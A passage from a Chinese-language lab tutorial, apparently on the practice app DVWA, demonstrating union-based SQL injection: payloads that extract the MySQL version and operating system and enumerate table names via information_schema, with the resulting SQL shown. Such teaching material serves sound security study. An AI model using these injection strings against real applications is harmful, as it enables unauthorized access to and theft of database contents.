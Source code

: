 同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

实际执行的Sql语句是:

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;
```



![62](./assert/62.jpg)



通过上图返回信息，我们又成功获取到：

- 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
- 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。
 `information_schema` 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：
 实际执行的Sql语句是：

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```



![63](./assert/63.jpg)
